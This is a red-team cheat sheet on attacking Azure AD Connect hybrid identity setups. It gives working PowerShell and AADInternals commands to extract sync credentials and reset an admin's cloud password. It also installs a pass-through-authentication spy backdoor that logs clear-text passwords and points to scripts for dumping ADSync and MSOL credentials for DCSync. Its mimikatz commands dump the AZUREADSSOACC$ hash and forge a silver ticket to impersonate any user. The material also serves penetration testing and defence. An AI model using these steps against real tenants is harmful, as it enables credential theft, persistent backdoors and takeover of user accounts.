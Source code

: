 # Azure AD Connect

| Active Directory                  | Azure AD          |
|-----------------------------------|-------------------|
| LDAP                              | REST API'S        |
| NTLM/Kerberos                     | OAuth/SAML/OpenID |
| Structured directory (OU tree)    | Flat structure    |
| GPO                               | No GPO's          |
| Super fine-tuned access controls  | Predefined roles  |
| Domain/forest                     | Tenant            |
| Trusts                            | Guests            |

Check if Azure AD Connect is installed : `Get-ADSyncConnector`

* For **PHS**, we can extract the credentials
    * Passwords from on-premise AD are sent to the cloud
    * Use replication via a service account created by AD Connect
* For **PTA**, we can attack the agent
    * Possible to perform DLL injection into the PTA agent and intercept authentication requests: credentials in clear-text
* For **Federation**, connect Windows Server AD to Azure AD using Federation Server (ADFS)
    * Dir-Sync : Handled by on-premise Windows Server AD, sync username/password
    * extract the certificate from ADFS server using DA


## Password Hash Synchronization

Get token for `SYNC_*` account and reset on-prem admin password

```powershell
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```


## Pass-Through Authentication

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```

## Federation

* [Golden SAML](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adfs-federation-services/)


## AD Connect - Credentials

* [dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes

* **ADSyncDecrypt**: Decrypts the credentials fully on the target host. Requires the AD Connect DLLs to be in the PATH. A similar version in PowerShell was released by Adam Chester on his blog.
* **ADSyncGather**: Queries the credentials and the encryption keys on the target host, decryption is done locally (python). No DLL dependencies.
* **ADSyncQuery**: Queries the credentials from the database that is saved locally. Requires MSSQL LocalDB to be installed. No DLL dependencies. Is called from adconnectdump.py, dumps data without executing anything on the Azure AD connect host.

Credentials in ADSync : `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`


## AD Connect - DCSync with MSOL Account 

You can perform **DCSync** attack using the MSOL account.

Requirements:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.


## AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

> Seamless SSO is supported by both PHS and PTA. If seamless SSO is enabled, a computer account **AZUREADSSOC** is created in the on-prem AD.

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## References

* [Introduction to Microsoft Entra Connect V2 - Microsoft](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-azure-ad-connect-v2)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory - Dirk-jan Mollema - 1st apr. 2019](https://www.youtube.com/watch?v=JEIR5oGCwdg)
* [Impersonating Office 365 Users With Mimikatz - Michael Grafnetter - January 15, 2017](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [Azure AD Overview - John Savill's Technical Training - Oct 7, 2014](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English - Openness AtCEE - Jan 9, 2014](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Azure AD connect for RedTeam - Adam Chester @xpnsec -  2019-02-18](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Azure AD Kerberos Tickets: Pivoting to the Cloud - Edwin David - February 09, 2023](https://trustedsec.com/blog/azure-ad-kerberos-tickets-pivoting-to-the-cloud)
* [DUMPING NTHASHES FROM MICROSOFT ENTRA ID - Secureworks](https://www.secureworks.com/research/dumping-nthashes-from-microsoft-entra-id)